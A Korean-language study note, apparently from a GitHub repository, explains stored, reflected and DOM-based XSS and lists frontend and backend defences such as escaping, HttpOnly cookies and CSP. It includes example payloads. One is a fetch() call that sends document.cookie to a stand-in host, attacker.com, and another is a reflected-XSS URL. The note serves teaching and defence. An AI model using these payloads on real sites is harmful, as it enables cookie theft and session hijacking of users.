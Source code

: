 # XSS (Cross-Site Scripting)
XSS는 공격자가 웹 페이지에 악의적인 스크립트를 삽입하여, 이를 통해 사용자 정보를 탈취하거나 사용자에게 악성 행위를 유도하는 공격이다.

XSS는 주로 사용자 입력을 제대로 검증하지 않은 경우 발생한다. 공격자는 웹 페이지에 JavaScript와 같은 스크립트를 삽입하여, 다른 사용자에게 이를 실행시키거나 중요한 데이터를 유출하도록 만든다.

## XSS의 종류
### 1. 저장 XSS (Stored XSS)
악성 스크립트가 서버에 저장되어, 이후 웹 페이지를 방문하는 다른 사용자에게 전달되는 방식이다.


![image](img/KangJinju/stored_xss.png)

ex. HTML 문서에 아래 스크립트를 저장해놓으면, 사용자는 해당 브라우저에 방문할 때마다 쿠키 정보를 출력하는 경고창이 뜨는 것을 보게 된다. 
```html
<script>alert(document.cookie)</script>
```

document.cookie 가 노출됨 + 만약, 공격자의 서버로 쿠키 정보를 저장하는 악성 스크립트가 있다면 공격자의 서버로 쿠키 정보가 전송 될 수 있다.

```html
<script>
  fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```


### 2. 반사 XSS (Reflected XSS)
공격용 악성 URL을 만든 뒤, 사용자가 해당 URL을 클릭했을 때 정보를 획득하는 방법이다.
- 사용자가 URL을 클릭하면, 브라우저는 이 URL에 포함된 매개변수를 서버로 전송하고, 서버는 이를 처리한 뒤 클라이언트에 응답을 반환한다.


![image](img/KangJinju/reflected_xss.png)

ex. 현재 예시 이미지에서 아래와 같이 조작된 url이 있는데, 사용자가 이를 클릭했을 때, 브라우저가 URL에 포함된 해당 변수들 (q, x, y) 을 서버로 전송하게 된다. 서버가 매개변수 내용을 검증하지 않고 해당 내용을 HTML 페이지에 렌더링하면 쿠키 정보가 노출되는 것이다.

```html
http://www.test.com/search?q=<script>alert(document.cookie)</script>&x=0&y=0
```

### 3. DOM 기반 XSS (DOM-based XSS)
저장 XSS 공격과 반사 XSS 공격이 서버의 취약점을 이용해 사용자 브라우저에 악성 스크립트가 포함된 응답 페이지를 전달하는 방식이었다면, DOM 기반 XSS는 공격은 서버와 관계없이 브라우저의 자바스크립트 처리 과정(DOM 조작)에서 발생한다.


예시
- 사용자가 공격자가 조작한 URL을 클릭할 때, 만약 fragment 뒤에 악성 코드가 들어오면 이를 `location.hash`로 처리
- 이후, 브라우저가 `location.hash`의 값을 받아서 DOM에 삽입하거나 처리하려고 시도
- 여기서 검증이 되지 않은 악성 코드가 DOM에 삽입 되고, <script> 태그로 실행된다면, 공격자의 의도대로 악성 스크립트가 실행되는 것이다.


#### + Fragment
![image](img/KangJinju/url_fragment.png)


프래그먼트 식별자는 오직 브라우저에서만 사용되기 때문에, URL을 HTTP 요청 메시지로 보낼 때, 프래그먼트를 제외한 주소만 전송된다. (JavaScript가 클라이언트에서 직접 URL 값을 읽고 처리, 해당 공격이 브라우저 내에서만 발생)


#### 공격 유형 별로 정리
| 공격 유형   | 작동 방식                          | 주로 발생하는 위치            |
|-------------|------------------------------------|---------------------------|
| 저장 XSS    | 악성 스크립트를 서버 DB에 저장     | 서버에서 처리 후 브라우저로 전송 |
| 반사 XSS    | URL에 악성 스크립트를 포함시켜 실행 | 서버에서 응답 생성 시 포함 |
| DOM XSS     | 클라이언트의 자바스크립트가 직접 실행 | 브라우저 내에서만 발생    |


## XSS 공격에 대해 Front 와 Back에서 할 수 있는 대처
### Front
- 공통적으로 Front 에서는 사용자 입력 검증과 DOM 조작 시 이스케이프 처리 등이 필요하다.
- 특히, DOM XSS 같이 브라우저 내에서만 실행되는 공격은, 클라이언트 측의 대처가 중요하다. 
  - 철저한 사용자 입력 검증 필요  (`location.hash`, `location.search` 등의 값을 사용할 때, 정규식을 활용하여 허용된 값만 처리하도록 검증, ex. 블랙리스트 & 화이트리스트 필터링)
  - DOM 조작 시 이스케이프 처리 필수 (HTML을 직접 삽입하지 말고, 안전한 방법(ex. `textContent`)으로 DOM 조작)


### Back
- XSS 공격은 공통적으로 쿠키를 탈취하려는 시도가 많기 때문에 `HttpOnly` 쿠키 설정이 필요하다.
  -  XSS를 통해 쿠키 정보가 노출되지 않도록 JavaScript의 쿠키 접근을 차단하려는 목적
- 저장 XSS나 반사 XSS 처럼 서버를 거치는 XSS 공격에 대처하는 것이 중요 (취약한 web server가 되지 않도록)
- 저장 XSS를 막는 법은 다음과 같다.
  - 웹 서버 방화벽(WAF) 등을 사용하여 악성 코드를 심으려는 시도를 원천적으로 차단
  - 출력 시 이스케이프 처리, 검증을 철저하게
  - Content Security Policy (CSP) 를 적용하여 외부 스크립트 및 인라인 스크립트의 실행 방지


- 이전에 저장 XSS가 취약한 서버에 악성 코드를 직접 심는 방식이었다면, 반사 XSS는 URL 요청에 악성 스크립트를 포함시키는 방식으로, 악성 요청에 대한 응답을 통해 정보를 갈취하는 방식이었다. 따라서, 저장 XSS 대처법과 함께 클라이언트에서 받은 사용자 입력을 추가 검증할 수 있다. (정규식 등을 사용)


***

references.
- [XSS and CSRF](https://gogomalibu.tistory.com/163)
- [weak points of Cookies](https://blog.naver.com/sparrowast/223156059828)